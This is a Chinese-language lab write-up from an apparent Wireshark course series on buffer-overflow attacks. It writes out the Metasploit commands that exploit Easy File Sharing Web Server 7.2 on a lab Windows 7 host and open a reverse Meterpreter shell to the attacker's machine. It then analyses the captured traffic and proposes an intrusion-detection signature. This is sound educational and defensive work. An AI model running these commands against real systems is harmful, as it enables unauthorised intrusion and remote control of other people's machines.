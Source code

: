 ```yaml
---
title: 【Wireshark 系列】缓冲区溢出攻击分析
date: 2020-07-05 20:25:09 
update: 2020-07-05 20:25:09
categories: 
- Web
- Wireshark
tags: 
- Wireshark
- kali
copyright: true

---
```


![Wireshark](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/Wireshark.jpg)

前面介绍了很多种攻击方式，但是它们都是基于网络协议的缺陷。而在实际情况中，除了这些内容之外，操作系统和应用程序的漏洞也是网络安全研究的重点。
缓冲区溢出是现在很典型的一种远程攻击方式，它利用了程序员在编写程序时的疏忽，从而实现了在远程设备上执行代码。这些攻击方式大都要通过应用层的协议实现，所以本次课也会介绍应用层最为典型的协议 HTTP 。

<!-- more -->

# 缓冲区溢出攻击的相关理论

缓冲区溢出是一种非常普遍、非常危险的漏洞，在各种操作系统、应用软件中广泛存在。利用缓冲区溢出进行攻击，可以导致程序运行失败、系统宕机、重新启动等后果。更为严重的是，攻击者可以利用它执行非授权指令，甚至可以取得系统特权，进而执行各种操作。

考虑到目前大量的应用程序都使用了 B/S 结构，而这种结构正是使用 HTTP 协议进行通信的。

维基百科的定义是：
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。

> HTTP 协议下有一个 Host 字段，这个不是多余的，主要是虚拟化技术的发展，一台主机很可能对应多个域名。

# 模拟缓冲区溢出攻击

## 实验环境

> 笔者的 8GB 主机基本要把所有的进程关闭 :sob:

kali：192.168.93.144
Win7：192.168.93.155
Wireshark 监听端口 VNet8
文件共享软件 Easy File Sharing Web Server7.2

## 实验步骤

### 开启服务

在 Win 7 下运行 文件共享软件 Easy File Sharing Web Server7.2：
![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image001.png)

开启服务之后，另一台主机 kali 是可以访问的：

![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image002.png)

### 缓冲区溢出攻击

在 kali 中执行 msfconsole 命令打开 Metasploit：
<img src="%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image003.png" style="zoom:80%;" />

Metasploit 是各种渗透模块的集成，先搜索一下没有没目标软件的渗透模块：
![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image004.png)

我们不妨使用 2015 版的：
```shell
use exploit/windows/http/easyfilesharing_seh
```

然后进行攻击
1. 选择武器
   ```shell
   set payload windows/meterpreter/reverse_tcp
   ```

1. 自我定位
   ```shell
   set lhost 192.168.93.144
   ```

1. 目标定位
   ```shell
   set rhost 192.168.93.155
   set rport 80
   ```

1. 攻击
   发送大量数据，包括木马等，实现缓冲区溢出
   ```shell
   exploit
   ```
   ![image-20200705203002353](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/image-20200705203002353.png)

这个时候已经实现了对 Win7 的控制。

### 控制

接下来可以把 Win7 当做自己的主机进行控制：
![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image006.png)

![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image007.png)

 

# 使用 Wireshark 分析缓冲区溢出攻击

## 判定攻击

如果我们怀疑自己中了缓冲区溢出攻击，可以进行如下分析：
分析 [Buffer_Overflow.pcapng](https://github.com/ZER0-Nu1L/Wireshark-Analysis/tree/master/Package/Buffer_Overflow.pcapng)：

先用显示过滤器过滤一下，只显示 http 相关的报文（客户端进行缓冲区溢出攻击的应用层协议）
![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/image-20200705203021763.png)

首先 Wireshark 已经看出来这里是一个畸形的数据包。并且，HTTP 数据包进行了分片，这往往是字段内容过大导致的，也是实现缓冲区溢出攻击的必要条件之一。

我们可以用 TCP 在追踪流查看一下：
![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image009.png)

可以很明显地看出 GET 后面的内容是混乱的， 没有没有实际意义可言，并且有很长很长一大段全是字符。
这很显然是为了将软件的缓冲区填满。

 

## 一个疑点的分析

值得一提的是，如果你尝试在 Easy File Sharing Web Server 页面填写内容的时候，会发现自己输出长度是有限的，那怎么会导致溢出呢？
![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image010.png)
这一点其实并不难理解，这个功能实现往往是前端页面对用户输入的限制。但是传输的时候没有限制，比如通过 Socket 编程传递这样过长的参数。
再补充一下，我们这里是用 Metasploit 中的模块实现对软件的攻击，也就意味着这个漏洞是公开知晓的。但是自己去挖漏洞的时候，就需要自己用诸如 Socket 编程的方式进行攻击。

所以这里的软件是有问题的，漏洞在于不检查接收的数据有多长，只是在前端做了输入限制。
当传出的数据大于 TCP 的缓冲区，就会复制到缓冲区的外面，通俗地讲就是指向下一条要执行指令的指针（PC）指针。导致之后执行的时候，不是执行下一条程序，而是执行下一个木马。
 

## 缓冲区大小

程序缓冲区有多大，这个是一个非常非常关键的问题，对不同的人都有非常重要的意义。
黑客知晓之后，就可以进行攻击了，在缓冲区之外的加上木马文件，构造缓冲区溢出攻击；
安全工作者知晓之后，可以进行木马识别和网络取证等。


而我们这里其实也可以看到：
![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image009.png)
<img src="%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image011.png" style="zoom:50%;" />

这个程序的缓冲区大小为：4061 bytes.

 

## 反向木马

按照木马客户端和服务端之间建立连接的方式的不同，可以将木马分为正向连接木马和反向连接木马。

正向连接木马的连接过程为：控制端首先发起通信连接的请求，然后木马被控制端响应并建立半连接，等控制端响应后，木马被控制端最终建立一个与控制端的通信连接。
正向木马其实是比较困难，黑客不知道哪些主机中了木马，而中了木马的主机等待着黑客连接它。

再加上由于动态IP、防火墙过滤技术、内网访问限制等因素的存在，阻挡了许多木马的交互，使得中了木马的计算机无法与控制端联系。这样，反向连接方式就显得非常必要。

进一步说，灰鸽子木马之后，常见的木马基本上都是反向木马。

其连接过程是：控制端首先打开端口进行监听，被控制端主动与控制端的监听端口进行连接。木马控制端发现被控制端请求之后给出提示，然后控制者开始对被控制端主机进行控制操作。

 

我们分析一下这里是不是反向木马。
这里的服务器 IP 是 192.168.93.155，所以先用一次显示过滤器：
ip.src == 192.168.93.155
看到有一个它主动发出的 SYN 请求：
![image-20200705203053290](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/image-20200705203053290.png)

去掉显示过滤器，可以看到服务器主动和另一台主机进行 TCP 三次握手：
![](%E3%80%90Wireshark%20%E7%B3%BB%E5%88%97%E3%80%91%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/clip_image013.png)

所以这里攻击者使用的是反向木马。

## 应对措施
如果你使用的软件存在这样的漏洞，但你又不得不使用这个软件，可以这样应对：
把特征写入入侵检测的特征库里，比如我们这里的特征是： HTTP GET请求, 缓冲区长度为 4061 bytes…

# 参考资料

1. [正向连接](http://www.cnitpm.com/pm1/66204.html)
1. [反向连接](http://www.cnitpm.com/pm1/66205.html)
1. [缓冲区溢出](https://zh.wikipedia.org/wiki/缓冲区溢出)
